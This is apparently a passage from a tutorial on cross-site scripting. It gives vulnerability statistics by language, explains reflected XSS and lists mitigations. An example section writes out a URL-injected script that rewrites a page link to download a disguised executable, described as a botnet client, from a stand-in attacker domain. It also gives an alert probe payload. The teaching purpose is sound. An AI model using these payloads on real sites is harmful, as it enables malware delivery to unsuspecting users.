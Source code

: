  - Java (Web Applications): 57% of Java web app vulnerabilities are XSS
 - Perl (CGI): 67% of Perl web app vulnerabilities are XSS
 - PHP: 56% of PHP web app vulnerabilities are XSS
 - ASP: 49% of ASP web app vulnerabilities are XSS

**Non-Persistent**

Non-persistent XSS is the single most commonly performed XSS attack to date. 

Non-persistent XSS is carried out by getting a website to execute attacker-controlled code on the victim's browser. For this reason it is also known as "reflected XSS", because the site simply reflects the attacker-controlled code onto the user's browser. Non-persistent XSS is different than other forms of XSS in that non-persistent XSS does not store the payload anywhere. It is sent without the user knowing (usually through a doctored URL) and the payload is returned in the HTML response. 

Typically a hacker will test the site for vulnerabilities with a fuzzer, or by hand testing various exposed parameters by manually trying to inject an alert such as `<script>alert("XSS works >:D");</script>`. Once the attacker has a working vector, a crafted URL can be made and masked using redirects on a site they control. From there, they can send the link (ex. "http://meet-singles-now.ru") and use social engineering to get a user to click on it. This is *very* common in modern spam, and is often time consuming to perform analysis on when it happens because the victim will likely not believe a site that "looks normal" could have attacked them. 

Possible Attack Vectors

- Any site that is using endpoints with GET parameters that are inserted directly into the DOM is vulnerable to non-persistent XSS

Example Attack

In the below example, we will override an enticing link on a site we have determined to be vulnerable to download our botnet client. We will focus on attacking a Windows computer (because of the *.exe), but a similar attack could be done on any system. Suppose the second link on the mysite login page is the login button. The exploited code shown below will download our botnet client to the user's computer. Since we're dealing with Windows in this example, we can add some additional testing code (not shown below) to test for common download locations on the users computer using ActiveX, and then use the Run method to run the executable. 

- Normal: `http://mysite.com/login.php?username=angrygoats&startPage=1`
- Exploited: `http://mysite.com/login.php?username=<script>window.onload=function(){var mylinks=document.getElementsByTagName("a");mylinks[1].href="http://meet-singles-now.ru/flash_playerupdate.exe";}</script>`

Mitigation

- Always assume every parameter could be potentially compromised and validate accordingly
- Make sure to HTML encode any output to the screen, this way any tags that are displayed will be safe
- Regularly run web vulnerability scanners such as [Acunetix](http://www.acunetix.com/vulnerability-scanner/download/)


**Persistent**

Persistent XSS is similar to its non-persistent counterpart with the main difference being that the server saves and permanently displays malicious user data. This usually happens on insecure user profile pages or forum posts. Myspace was a shining example of the horrors of persistent XSS.
